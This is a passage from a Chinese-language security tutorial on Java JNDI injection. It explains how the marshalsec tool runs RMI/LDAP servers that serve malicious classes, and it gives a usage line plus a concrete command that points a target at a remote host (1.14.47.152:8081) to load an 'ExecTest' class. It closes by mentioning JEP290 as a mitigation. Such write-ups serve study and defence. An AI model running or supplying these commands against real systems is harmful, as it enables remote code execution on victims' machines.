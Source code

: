 
也就是说jdk8u191版本之后基本无法利用JNDI注入了。


当然上述过程利用工具也可以实现，marshalsec这个工具已经内置了RMI和LDAP服务，可以很方便的开启远程服务用于加载恶意类。工具地址：[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)


用法：


```java
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]

```


```java
java -cp marshalsec-0.0.3-all.jar marshalsec.jndi.RMIRefServer http://1.14.47.152:8081/#ExecTest 1099

```


同样可以触发漏洞


![picgo2021-10-28-10-29-41.png](../post_images/ceacd095a23340aabdebd16f240e76ac.png)


了解过fastjson反序列化的同学知道其触发原理和上面的其实一样。


## 最后


谈到安全性，很多文章中都提到了JEP290,他给反序列化做了个安全检验，用于过滤输入的序列化数据，缓解反序列化攻击。

